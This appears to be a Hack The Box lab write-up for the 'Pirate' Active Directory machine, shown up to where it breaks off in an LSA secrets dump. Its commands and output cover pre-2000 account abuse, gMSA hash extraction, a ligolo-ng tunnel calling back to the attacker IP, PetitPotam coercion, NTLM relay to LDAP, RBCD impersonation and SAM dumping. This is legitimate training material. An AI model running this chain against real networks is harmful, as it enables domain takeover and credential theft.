

# Pirate
## Machine Description
As is common in real life pentests, you will start the Pirate box with credentials for the following account pentest / p3nt3st2025!&

```python
pentest:p3nt3st2025!&
```

## Host file setup
```python
sudo nxc smb 10.129.244.95 --generate-hosts-file /etc/hosts  
SMB         10.129.244.95   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT -Pn 10.129.244.95 -vv

Nmap scan report for 10.129.244.95
Host is up, received user-set (0.014s latency).
Scanned at 2026-09-24 16:27:34 BST for 66s
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
80/tcp    open  http             syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
2179/tcp  open  vmrdp            syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5985/tcp  open  wsman            syn-ack
9389/tcp  open  adws             syn-ack
49667/tcp open  unknown          syn-ack
49683/tcp open  unknown          syn-ack
49684/tcp open  unknown          syn-ack
49686/tcp open  unknown          syn-ack
49689/tcp open  unknown          syn-ack
49913/tcp open  unknown          syn-ack
49936/tcp open  unknown          syn-ack
```

### Nmap
```python
nmap -p 53,80,88,135,139,389,445,464,593,636,2179,3268,3269,5985 -A --min-rate=2000 -sT -Pn dc01.pirate.htb
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-24 16:30 +0100
Nmap scan report for dc01.pirate.htb (10.129.244.95)
Host is up (0.014s latency).
rDNS record for 10.129.244.95: DC01.pirate.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-24 22:30:14Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-09-24T22:31:40+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2026-09-24T22:17:27
|_Not valid after:  2027-09-24T22:17:27
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-09-24T22:31:40+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2026-09-24T22:17:27
|_Not valid after:  2027-09-24T22:17:27
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-09-24T22:31:40+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2026-09-24T22:17:27
|_Not valid after:  2027-09-24T22:17:27
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2026-09-24T22:17:27
|_Not valid after:  2027-09-24T22:17:27
|_ssl-date: 2026-09-24T22:31:40+00:00; +7h00m00s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows Server 2019 (97%), Microsoft Windows 10 1903 - 22H2 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)
Null auth is enabled but cannot use it to enumerate

The guest account is also disabled

### Using provided credentials
```python
nxc smb dc01.pirate.htb -u pentest -p 'p3nt3st2025!&'
SMB         10.129.244.95   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.95   445    DC01             [+] pirate.htb\pentest:p3nt3st2025!& 
```

These credentials allow me to authenticate

#### Shares
```python
nxc smb dc01.pirate.htb -u pentest -p 'p3nt3st2025!&' --shares
SMB         10.129.244.95   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.95   445    DC01             [+] pirate.htb\pentest:p3nt3st2025!& 
SMB         10.129.244.95   445    DC01             [*] Enumerated shares
SMB         10.129.244.95   445    DC01             Share           Permissions     Remark
SMB         10.129.244.95   445    DC01             -----           -----------     ------
SMB         10.129.244.95   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.244.95   445    DC01             C$                              Default share
SMB         10.129.244.95   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.244.95   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.244.95   445    DC01             SYSVOL          READ            Logon server share
```

Just default shares

#### Users
```python
nxc smb dc01.pirate.htb -u pentest -p 'p3nt3st2025!&' --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 | tee users.txt
Administrator
Guest
krbtgt
DC01$
a.white_adm
a.white
WEB01$
MS01$
EXCH01$
gMSA_ADCS_prod$
pentest
gMSA_ADFS_prod$
j.sparrow
```

Ill use `--rid-brute` to also get machine accounts

## Pre 2000 computer accounts

```python
nxc ldap dc01.pirate.htb -u pentest -p 'p3nt3st2025!&' -M pre2k
LDAP        10.129.244.95   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:pirate.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.244.95   389    DC01             [+] pirate.htb\pentest:p3nt3st2025!& 
PRE2K       10.129.244.95   389    DC01             Pre-created computer account: MS01$
PRE2K       10.129.244.95   389    DC01             Pre-created computer account: EXCH01$
PRE2K       10.129.244.95   389    DC01             [+] Found 2 pre-created computer accounts. Saved to /home/kali/.nxc/modules/pre2k/pirate.htb/precreated_computers.txt
PRE2K       10.129.244.95   389    DC01             [-] Failed to get TGT for ms01@pirate.htb: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
PRE2K       10.129.244.95   389    DC01             [-] Failed to get TGT for exch01@pirate.htb: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

After seeing several machine accounts, i figured it was worth checking, looks like there is

However nxc is unable to get TGTs cause of the clock skew which is fine since i should be able to guess their password based off their username

```python
nxc smb dc01.pirate.htb -u 'ms01$' -p 'ms01'                  
SMB         10.129.244.95   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.95   445    DC01             [-] pirate.htb\ms01$:ms01 STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT

nxc smb dc01.pirate.htb -u 'exch01$' -p 'exch01'
SMB         10.129.244.95   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.95   445    DC01             [-] pirate.htb\exch01$:exch01 STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT
```

Both credentials are valid however i am not authorized to use these credentials to logon

```python
faketime -f +7h nxc ldap dc01.pirate.htb -u pentest -p 'p3nt3st2025!&' -M pre2k
LDAP        10.129.244.95   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:pirate.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.244.95   389    DC01             [+] pirate.htb\pentest:p3nt3st2025!& 
PRE2K       10.129.244.95   389    DC01             Pre-created computer account: MS01$
PRE2K       10.129.244.95   389    DC01             Pre-created computer account: EXCH01$
PRE2K       10.129.244.95   389    DC01             [+] Found 2 pre-created computer accounts. Saved to /home/kali/.nxc/modules/pre2k/pirate.htb/precreated_computers.txt
PRE2K       10.129.244.95   389    DC01             [+] Successfully obtained TGT for ms01@pirate.htb
PRE2K       10.129.244.95   389    DC01             [+] Successfully obtained TGT for exch01@pirate.htb
PRE2K       10.129.244.95   389    DC01             [+] Successfully obtained TGT for 2 pre-created computer accounts. Saved to /home/kali/.nxc/modules/pre2k/ccache
```

However re-running the previous command while syncing to the time it will get some TGTs for me

```python
faketime -f +7h nxc smb dc01.pirate.htb --use-kcache
SMB         dc01.pirate.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc01.pirate.htb 445    DC01             [+] PIRATE.HTB\exch01 from ccache

faketime -f +7h nxc smb dc01.pirate.htb --use-kcache
SMB         dc01.pirate.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc01.pirate.htb 445    DC01             [+] PIRATE.HTB\ms01 from ccache
```

Both allow me to authenticate

## Compromising `gMSA_ADCS_prod$` and `gMSA_ADFS_prod$`

```python
faketime -f +7h nxc ldap dc01.pirate.htb --use-kcache --gmsa
LDAP        dc01.pirate.htb 389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:PIRATE.HTB) (signing:None) (channel binding:Never) 
LDAP        dc01.pirate.htb 389    DC01             [+] PIRATE.HTB\ms01 from ccache 
LDAP        dc01.pirate.htb 389    DC01             [*] Getting GMSA Passwords
LDAP        dc01.pirate.htb 389    DC01             Account: gMSA_ADCS_prod$      NTLM: aa831d274ee80cf2092f68cbcf29093e     PrincipalsAllowedToReadPassword: Domain Secure Servers
LDAP        dc01.pirate.htb 389    DC01             Account: gMSA_ADFS_prod$      NTLM: e819498ec29f595382df1eaf4fb42307     PrincipalsAllowedToReadPassword: Domain Secure Servers
```

I have both NT hashes for both of these accounts

```python
nxc smb dc01.pirate.htb -u 'gMSA_ADFS_prod$' -H 'e819498ec29f595382df1eaf4fb42307'
SMB         10.129.244.95   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.95   445    DC01             [+] pirate.htb\gMSA_ADFS_prod$:e819498ec29f595382df1eaf4fb42307

nxc smb dc01.pirate.htb -u 'gMSA_ADCS_prod$' -H 'aa831d274ee80cf2092f68cbcf29093e'
SMB         10.129.244.95   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.95   445    DC01             [+] pirate.htb\gMSA_ADCS_prod$:aa831d274ee80cf2092f68cbcf29093e
```

Both users compromised!

## Access over WINRM 

```python
nxc winrm dc01.pirate.htb -u 'gMSA_ADCS_prod$' -H 'aa831d274ee80cf2092f68cbcf29093e'
WINRM       10.129.244.95   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:pirate.htb) 
WINRM       10.129.244.95   5985   DC01             [+] pirate.htb\gMSA_ADCS_prod$:aa831d274ee80cf2092f68cbcf29093e (Pwn3d!)

nxc winrm dc01.pirate.htb -u 'gMSA_ADFS_prod$' -H 'e819498ec29f595382df1eaf4fb42307'
WINRM       10.129.244.95   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:pirate.htb) 
WINRM       10.129.244.95   5985   DC01             [+] pirate.htb\gMSA_ADFS_prod$:e819498ec29f595382df1eaf4fb42307 (Pwn3d!)
```

Both accounts can authenticate

```python
evil-winrm-py -i dc01.pirate.htb -u 'gMSA_ADCS_prod$' -H 'aa831d274ee80cf2092f68cbcf29093e'
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to 'dc01.pirate.htb:5985' as 'gMSA_ADCS_prod$'
evil-winrm-py PS C:\Users\gMSA_ADCS_prod$\Documents>
```

```python
evil-winrm-py PS C:\Program Files\Hyper-V> ipconfig

Windows IP Configuration


Ethernet adapter vEthernet (Switch01):

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::d976:c606:587e:f1e1%8
   IPv4 Address. . . . . . . . . . . : 192.168.100.1
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : .htb
   IPv4 Address. . . . . . . . . . . : 10.129.244.95
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.129.0.1
evil-winrm-py PS C:\Program Files\Hyper-V> ping 192.168.100.2

Pinging 192.168.100.2 with 32 bytes of data:
Reply from 192.168.100.2: bytes=32 time<1ms TTL=128
Reply from 192.168.100.2: bytes=32 time<1ms TTL=128
```

Looks like there is another host

Ill get ligolo-ng setup to access the internal host

## Setting up ligolo-ng

https://github.com/nicocha30/ligolo-ng/releases

```python
evil-winrm-py PS C:\Temp> upload agent.exe .
Uploading /home/kali/htb/pirate/agent.exe: 7.06MB [00:14, 503kB/s]                                           
[+] File uploaded successfully as: C:\Temp\agent.exe
evil-winrm-py PS C:\Temp>
```

Ill get the agent uploaded to the target

```python
sudo ./proxy -selfcert
[sudo] password for kali: 
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] daemon configuration file not found. Creating a new one... 
? Enable Ligolo-ng WebUI? No
WARN[0001] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
ERRO[0001] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
INFO[0001] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.9.1

ligolo-ng »
```

ill start the proxy on my system

```python
evil-winrm-py PS C:\Temp> ./agent.exe -connect 10.10.14.61:11601 --ignore-cert --retry
```

Ill then trigger a connection back to me

```python
ligolo-ng » session
? Specify a session : 1 - PIRATE\gMSA_ADCS_prod$@DC01 - 10.129.244.95:59484 - 00155d0bd000
[Agent : PIRATE\gMSA_ADCS_prod$@DC01] » 
[Agent : PIRATE\gMSA_ADCS_prod$@DC01] » 
[Agent : PIRATE\gMSA_ADCS_prod$@DC01] » ifcreate --name ligolo
INFO[0098] Creating a new ligolo interface...           
INFO[0098] Interface created!                           
[Agent : PIRATE\gMSA_ADCS_prod$@DC01] » route_add --name ligolo --route 192.168.100.0/24
INFO[0158] Route created.                               
[Agent : PIRATE\gMSA_ADCS_prod$@DC01] » tunnel_start 
INFO[0166] Starting tunnel to PIRATE\gMSA_ADCS_prod$@DC01 (00155d0bd000) 
[Agent : PIRATE\gMSA_ADCS_prod$@DC01] »
```

ill then select the new session create the interface and add the new routing info, then start the tunnel

```python
nxc smb 192.168.100.0/24                                                            
SMB         192.168.100.1   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         192.168.100.2   445    WEB01            [*] Windows 10 / Server 2019 Build 17763 x64 (name:WEB01) (domain:pirate.htb) (signing:False) (SMBv1:None)
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

I now see the `web01` machine

## Enumeration of `web01`

```python
nmap -p- --min-rate=200 -vv web01.pirate.htb -Pn -sT

Nmap scan report for web01.pirate.htb (192.168.100.2)
Host is up, received user-set (0.020s latency).
rDNS record for 192.168.100.2: web01
Scanned at 2026-09-24 17:42:19 BST for 153s
Not shown: 65522 filtered tcp ports (no-response)
PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
5985/tcp  open  wsman        syn-ack
47001/tcp open  winrm        syn-ack
49664/tcp open  unknown      syn-ack
49665/tcp open  unknown      syn-ack
49668/tcp open  unknown      syn-ack
49672/tcp open  unknown      syn-ack
49687/tcp open  unknown      syn-ack
49706/tcp open  unknown      syn-ack
49707/tcp open  unknown      syn-ack
```

These are the open ports

```python
nxc winrm web01.pirate.htb -u 'gMSA_ADFS_prod$' -H 'e819498ec29f595382df1eaf4fb42307'
WINRM       192.168.100.2   5985   WEB01            [*] Windows 10 / Server 2019 Build 17763 (name:WEB01) (domain:pirate.htb) 
WINRM       192.168.100.2   5985   WEB01            [+] pirate.htb\gMSA_ADFS_prod$:e819498ec29f595382df1eaf4fb42307 (Pwn3d!)
```

The ADFS service account can be used to winrm into the `web01` machine

## Access over WINRM on `web01`

```python
evil-winrm-py -i web01.pirate.htb -u 'gMSA_ADFS_prod$' -H 'e819498ec29f595382df1eaf4fb42307'
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to 'web01.pirate.htb:5985' as 'gMSA_ADFS_prod$'
evil-winrm-py PS C:\Users\gMSA_ADFS_prod$.PIRATE\Documents> whoami
pirate\gmsa_adfs_prod$
evil-winrm-py PS C:\Users\gMSA_ADFS_prod$.PIRATE\Documents>
```

I can authenticate here as the ADFS account but not the ADCS account

## NTLMv1 coersion

```python
faketime -f +7h nxc smb web01.pirate.htb -u 'ms01$' -p 'ms01' -k -M coerce_plus -o LISTENER=10.10.14.61
SMB         web01.pirate.htb 445    WEB01            [*] Windows 10 / Server 2019 Build 17763 x64 (name:WEB01) (domain:pirate.htb) (signing:False) (SMBv1:None)
SMB         web01.pirate.htb 445    WEB01            [+] pirate.htb\ms01$:ms01 
COERCE_PLUS web01.pirate.htb 445    WEB01            VULNERABLE, PetitPotam
COERCE_PLUS web01.pirate.htb 445    WEB01            Exploit Success, efsrpc\EfsRpcAddUsersToFile
COERCE_PLUS web01.pirate.htb 445    WEB01            VULNERABLE, PrinterBug
COERCE_PLUS web01.pirate.htb 445    WEB01            Exploit Success, spoolss\RpcRemoteFindFirstPrinterChangeNotificationEx
COERCE_PLUS web01.pirate.htb 445    WEB01            VULNERABLE, MSEven
```

Ill coerce auth from `web01$` back to me

```python
[SMB] NTLMv1-SSP Client   : 10.129.244.95
[SMB] NTLMv1-SSP Username : PIRATE\WEB01$
[SMB] NTLMv1-SSP Hash     : WEB01$::PIRATE:375E28CAB3025DE400000000000000000000000000000000:ACD8AAD51733BC893428BF25C3F6600CB316B18D516A3770:0c2f849c84700ef9
```

Now this isnt really a hash, i can try to convert it with a tool then try to crack it, but this will take a long time

I think the better plan is to replace responder with a relay that executes a command

## Using relay to setup delegation

```python
bloodyAD --host dc01.pirate.htb -d pirate.htb -u 'ms01$' -p 'ms01' -k add dnsRecord pwned 10.10.14.61
Clock skew detected. Adjusting local time by 7:00:00.217305. Retrying operation.
[+] pwned has been successfully added
```

First ill add the DNS record to the domain controller, with my IP address

```python
bloodyAD --host dc01.pirate.htb -d pirate.htb -u 'pentest' -p 'p3nt3st2025!&' -k get dnsDump

recordName: pwned.pirate.htb
A: 10.10.14.61
```

As seen here the record exists

```python
ntlmrelayx.py -t ldap://dc01.pirate.htb --delegate-access -smb2support                         
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client RPC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client WINRMS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up WinRM (HTTP) Server on port 5985
[*] Setting up RPC Server on port 135
[*] Setting up MSSQL Server on port 1433
[*] Setting up WinRMS (HTTPS) Server on port 5986
[*] Setting up RDP Server on port 3389
[*] Multirelay disabled

[*] Servers started, waiting for connections
```

ill start the relay

```python
coercer coerce -d pirate.htb --dc-ip 10.129.244.95 -u pentest -p 'p3nt3st2025!&' -t web01.pirate.htb -l pwned --auth-type http
       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4.3
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting coerce mode
[info] Scanning target web01.pirate.htb
[*] DCERPC portmapper discovered ports: 49664,49665,49668,49672,49706,49707,49687
[+] DCERPC port '49687' is accessible!
   [+] Successful bind to interface (12345678-1234-ABCD-EF00-0123456789AB, 1.0)!
[+] SMB named pipe '\PIPE\efsrpc' is accessible!
   [+] Successful bind to interface (df1941c5-fe89-4e79-bf10-463657acf44d, 1.0)!
      [+] (ERROR_BAD_NETPATH) MS-EFSR──>EfsRpcAddUsersToFile(FileName='\\pwned@80/jA7\share\file.txt\x00') 
Continue (C) | Skip this function (S) | Stop exploitation (X) ? C
      [+] (ERROR_BAD_NETPATH) MS-EFSR──>EfsRpcAddUsersToFileEx(FileName='\\pwned@80/muu\share\file.txt\x00')
```

Ill then run coercer with the target, my added record and the auth type i need

```python
[*] Servers started, waiting for connections
[*] (HTTP): Client requested path: /muu/pipe/srvsvc
[*] (HTTP): Client requested path: /muu/pipe/srvsvc
[*] (HTTP): Connection from 10.129.244.95 controlled, attacking target ldap://dc01.pirate.htb
[*] (HTTP): Client requested path: /muu/pipe/srvsvc
[*] (HTTP): Authenticating connection from PIRATE/WEB01$@10.129.244.95 against ldap://dc01.pirate.htb SUCCEED [1]
[*] ldap://PIRATE/WEB01$@dc01.pirate.htb [1] -> Enumerating relayed user's privileges. This may take a while on large domains
[*] (HTTP): Client requested path: /muu/pipe/srvsvc
[*] (HTTP): Client requested path: /muu/pipe/srvsvc
[*] All targets processed!
[*] (HTTP): Connection from 10.129.244.95 controlled, but there are no more targets left!
[*] ldap://PIRATE/WEB01$@dc01.pirate.htb [1] -> Adding a machine account to the domain requires TLS but ldap:// scheme provided. Switching target to LDAPS via StartTLS
[*] ldap://PIRATE/WEB01$@dc01.pirate.htb [1] -> Attempting to create computer in: CN=Computers,DC=pirate,DC=htb
[*] ldap://PIRATE/WEB01$@dc01.pirate.htb [1] -> Adding new computer with username: GFSNAPOT$ and password: dmhA4CZ0Az7aVno result: OK
[*] ldap://PIRATE/WEB01$@dc01.pirate.htb [1] -> Delegation rights modified succesfully!
[*] ldap://PIRATE/WEB01$@dc01.pirate.htb [1] -> GFSNAPOT$ can now impersonate users on WEB01$ via S4U2Proxy
```

The attack was completed

I can now use the added machine account to impersonate any user on `web01$` using RBCD

```python
faketime -f +7h getST.py -spn 'cifs/web01.pirate.htb' -impersonate Administrator pirate.htb/'GFSNAPOT$':'dmhA4CZ0Az7aVno'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_web01.pirate.htb@PIRATE.HTB.ccache
```

I now have a ticket for the `web01$` administrator

## Administrator on `web01`

```python
faketime -f +7h nxc smb web01.pirate.htb -u Administrator --use-kcache
SMB         web01.pirate.htb 445    WEB01            [*] Windows 10 / Server 2019 Build 17763 x64 (name:WEB01) (domain:pirate.htb) (signing:False) (SMBv1:None)
SMB         web01.pirate.htb 445    WEB01            [+] pirate.htb\Administrator from ccache (Pwn3d!)
```

I am now the administrator on the `web01` machine

```python
faketime -f +7h nxc smb web01.pirate.htb -u Administrator --use-kcache --sam 
SMB         web01.pirate.htb 445    WEB01            [*] Windows 10 / Server 2019 Build 17763 x64 (name:WEB01) (domain:pirate.htb) (signing:False) (SMBv1:None)
SMB         web01.pirate.htb 445    WEB01            [+] pirate.htb\Administrator from ccache (Pwn3d!)
SMB         web01.pirate.htb 445    WEB01            [*] Dumping SAM hashes
SMB         web01.pirate.htb 445    WEB01            Administrator:500:aad3b435b51404eeaad3b435b51404ee:b1aac1584c2ea8ed0a9429684e4fc3e5:::
SMB         web01.pirate.htb 445    WEB01            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         web01.pirate.htb 445    WEB01            DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         web01.pirate.htb 445    WEB01            WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:60da2d3ba00d6b5932e4c87dce6fa6b4:::
SMB         web01.pirate.htb 445    WEB01            [+] Added 4 SAM hashes to the database
```

Ill then dump the SAM to get the admin hash

```python
evil-winrm-py -i web01.pirate.htb -u Administrator -H 'b1aac1584c2ea8ed0a9429684e4fc3e5'    
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to 'web01.pirate.htb:5985' as 'Administrator'
evil-winrm-py PS C:\Users\Administrator\Documents>
```

And now i can authenticate to the `web01` machine as the administrator

## Compromising `a.white` and `a.white_adm`

```python
faketime -f +7h nxc smb web01.pirate.htb -u Administrator --use-kcache --lsa
SMB         web01.pirate.htb 445    WEB01            [*] Windows 10 / Server 2019 Build 17763 x64 (name:WEB01) (domain:pirate.htb) (signing:False) (SMBv1:None)
SMB         web01.pirate.htb 445    WEB01            [+] pirate.htb\Administrator from ccache (Pwn3d!)
SMB         web01.pirate.htb 445    WEB01            [*] Dumping LSA secrets
SMB         web01.pirate.htb 445    WEB01            PIRATE.HTB/Administrator:$DCC2$10240#Administrator#8baf09ddc5830ac4456ee8639dd89644: (2026-02-25 02:41:09)
SMB         web01.pirate.htb 445    WEB01            PIRATE.HTB/gMSA_ADFS_prod$:$DCC2$10240#gMSA_ADFS_prod$#66812dfee46ff41c9c8245a2819c3183: (2026-09-24 22:29:34)
SMB         web01.pirate.htb 445    WEB01            PIRATE.HTB/a.white:$DCC2$10240#a.white#366c8924be3ea6d1d12825569a4bcc39: (2026-09-24 22:27:25)
SMB         web01.pirate.htb 445    WEB01            PIRATE\WEB01$:plain_password_hex:29f1505d87014b01b4317fed1d52ddbee2792a698e7e1de1bcdf29ab5d4b8e54828ce470d23491ba84e82d786622a821a14c730cf8610a32db1951b7619ee08c3bcacbab53aac8e052bd64e638c6bbd9529daacf04f86cfb9034808c4378d2c328c8c6afe7655f4a099dc41caeb6279c53313edcbd58db3e14490b7543ba3250ac200ec9834992b61b3f4319162645b50f402de4db0843fc43db7d54e04828abf86e490959bc88670e50f0b50373a3745f70039f8fd032435c4a725526957c7ae0dbaa81273b3aa28c0b029fea90c271b6601ef3ba7a05a13ec8c8ffd9999dd10eee87b4b9eb08a8a4af90710056f558
